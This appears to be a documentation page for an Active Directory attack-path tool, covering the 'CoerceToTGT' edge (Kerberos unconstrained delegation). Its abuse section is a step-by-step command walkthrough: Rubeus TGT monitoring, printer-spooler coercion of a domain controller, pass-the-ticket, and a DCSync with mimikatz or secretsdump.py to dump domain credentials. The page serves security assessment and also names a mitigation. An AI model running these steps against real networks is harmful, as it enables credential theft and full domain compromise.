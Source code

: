 ---
title: CoerceToTGT
description: "The computer/user account is configured with Kerberos unconstrained delegation."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>


In a standard Kerberos authentication process, when a principal accesses a Kerberos-enabled service, they present a service ticket to the service host (a computer or service account). This ticket cannot be used to authenticate against other services. However, if a computer or service account is trusted for unconstrained delegation, the principal sends their full Kerberos Ticket Granting Ticket (TGT). This TGT can be forwarded, allowing the service host to impersonate the principal across other services within the environment.

An attacker can coerce a Tier Zero computer (e.g. DC) to authenticate against the account and obtain the target's TGT. With the TGT of a DC, the attacker can perform DCSync to compromise the domain. Alternatively, the TGT can be used to obtain admin access to the target host with a shadow credentials + silver ticket attack or a resource-based constrained delegation attack.

Accounts marked as sensitive or belonging to the Protected Users group are protected against the attacks as they will not send their TGTs to accounts with unconstrained delegation enabled.

## Abuse Info

A common way for attackers to abuse unconstrained delegation is for the attacker to coerce a DC using the printspooler.

The attack will fail if the target is a member of Protected Users or marked as sensitive, as the TGT of those principals will not be sent to the principal with unconstrained delegation. You can find all the protected principals with this Cypher query:

```bash
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

There are many other coercion techniques than printspooler that can be used (see References).

The instructions provided here are for abusing a computer with unconstrained delegation. For abuse of a user, see [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html).

**Step 1: Start monitoring for TGTs**

Log in on the computer configured with unconstrained delegation and open CMD as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:<target DC DNS name> /interval:5 /nowrap
```
**Step 2: Coerce target DC**

From any host in the domain, coerce the target DC using printspooler.

Windows:

```bash
SpoolSample.exe <target DC DNS name> <compromised computer DNS name>
```
Linux:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised computer IP>

```

Rubeus will print the DC TGT as it is received.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus on any computer in the domain:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Save the TGT base64 blob as a .kirbi file:

```bash
echo "doIFvjCCBbqgAwI..." | base64 -d | tee ticket.kirbi > /dev/null
```

Convert the TGT to ccache format using ticketConverter.py:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync target domain**

Windows:

Use mimikatz to DCSync the domain from the computer where the DC TGT was injected:

```bash
lsadump::dcsync /domain:<domain.name> /user:<DOMAIN\targetuser>
```
Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

There is no opsec information for this edge.

## References

[Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
[Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
[(RBCD) Resource-based constrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
[Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
[Rubeus](https://github.com/GhostPack/Rubeus)
[SpoolSample](https://github.com/leechristensen/SpoolSample)
[mimikatz](https://github.com/gentilkiwi/mimikatz)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
[ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
